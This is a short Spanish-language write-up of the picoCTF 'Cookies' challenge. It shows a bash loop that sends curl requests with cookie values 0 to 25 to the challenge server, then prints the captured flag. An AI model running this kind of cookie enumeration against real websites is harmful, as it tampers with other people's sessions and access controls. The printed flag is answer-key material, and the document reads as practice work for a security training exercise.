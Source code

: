 # Cookies
## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Solucion
```bash
┌──(kali㉿kali)-[~]

└─$ for i in {0..25}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep picoCTF

<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>

```

## Notas adicionales

## Referencias